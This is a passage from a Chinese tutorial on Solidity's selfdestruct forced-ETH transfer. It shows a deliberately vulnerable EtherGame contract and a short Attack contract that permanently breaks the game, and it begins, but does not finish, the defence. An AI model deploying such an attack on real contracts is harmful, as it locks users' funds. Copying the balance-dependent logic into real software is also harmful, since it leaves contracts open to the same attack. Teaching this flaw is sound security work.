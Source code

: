 而 `selfdestruct(_addr)` 中的 `_addr` 是接收合约中剩余 `ETH` 的地址， `_addr` 地址不需要有 `receive` 或 `fallback` 也能接收 `ETH`（这个就种coinbase 地址一样了）, 也就是没有拒收的余地.

利用这个自毁并且强制转账的功能, 也可以实现某种攻击手段.

例如有这么个游戏，每次只能转入1个ETH，当你是第7个转入者，合约余额累计到7ETH的时候，你就可以把钱给领走:

```
contract EtherGame {
    uint256 public targetAmount = 7 ether;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        uint256 balance = address(this).balance;
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent,) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
}
```

上面的代码作了限制，如果转入的金额不是1ETH，转出就会失败，最后比较余额是否等于7，但是作为攻击者，就可以利用 `selfdestruct` 的强制转账的机制，可以直接把游戏给搞挂：

```solidity

contract Attack {
    EtherGame etherGame;

    constructor(EtherGame _etherGame) {
        etherGame = EtherGame(_etherGame);
    }

    function attack() public payable {
        address payable addr = payable(address(etherGame));
        selfdestruct(addr);
    }
}
```

假如我合约余额是 0.00000324 ETH, 强制转账就能绕过 `require(msg.value==1)` 的限制，那么这个游戏就永远不会有赢家，因为它每次只能转入1ETH，没法实现 `balance==targetAmount`, 除非你用类似的攻击手段，再转入个 `0.99999676`, 湊够 1ETH.

更进一步，这里的预防手段是不要依赖 `address(this).blanace`, 而是要用自定义的变量:
